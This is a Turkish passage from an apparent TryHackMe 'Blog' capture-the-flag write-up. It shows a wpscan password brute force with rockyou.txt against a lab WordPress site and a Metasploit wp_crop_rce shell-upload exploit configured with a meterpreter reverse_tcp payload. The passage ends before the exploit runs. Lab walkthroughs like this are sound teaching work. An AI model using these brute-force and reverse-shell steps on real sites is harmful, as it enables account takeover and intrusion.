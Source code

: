 Wordpress sürümü ile ilgili exploit araştırması yapıldığında düşük kullanıcı ile shell upload edilebilcek bir zafiyet tespit edilmektedir.

{{< image src="/images/thm/blog/exp.png" alt="Hello Friend" position="center" style="border-radius: 10px;" >}}

Exploitin kullanımı için kullanıcı hesap bilgilerine ihtiyaç vardır. Wpscan aracı ile elde edilen hesaplara brute force saldırısı düzenlenir. İşlem soncunda kwhell adlı kullanıcıya ait parola elde edilir.

```bash
wpscan --url http://blog.thm -U user.lst -P /usr/share/wordlists/rockyou.txt
```

{{< image src="/images/thm/blog/pass.png" alt="Hello Friend" position="center" style="border-radius: 10px;" >}}

Metasploit aracı açılır ve tespit edilen exploit modulü aranır. Seçilen modüle ait ayarlar options komutu görüntülenir.

*Not: Metasploit 6 sürümünde exploit işleminden sonra shell almada sıkıntılar olmaktadır.*

```bash
msfconsole -q
```

```txt
msf5 > search crop-image

Matching Modules
================

   #  Name                            Disclosure Date  Rank       Check  Description
   -  ----                            ---------------  ----       -----  -----------
   0  exploit/multi/http/wp_crop_rce  2019-02-19       excellent  Yes    WordPress Crop-image Shell Upload


msf5 > use 0
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
msf5 exploit(multi/http/wp_crop_rce) > options

Module options (exploit/multi/http/wp_crop_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD                    yes       The WordPress password to authenticate with
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The base path to the wordpress application
   USERNAME                    yes       The WordPress username to authenticate with
   VHOST                       no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.0.2.15        yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

```